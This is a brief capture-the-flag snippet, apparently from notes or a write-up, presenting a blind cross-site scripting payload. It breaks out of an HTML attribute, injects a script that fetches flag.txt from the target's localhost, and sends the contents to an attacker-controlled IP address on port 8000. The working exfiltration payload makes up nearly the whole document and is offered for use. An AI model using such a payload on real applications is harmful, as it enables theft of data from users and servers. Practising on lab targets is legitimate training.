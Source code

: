 To get flag from a BlindXSS vulnerable server you can use this JS code.

'"><script> 
fetch('http://127.0.0.1:8080/flag.txt')
.then(response => response.text()) 
.then(data => {
    fetch('http://<Your-ip-address-tun0>:8000/?flag=' + encodeURIComponent(data))
})
</script>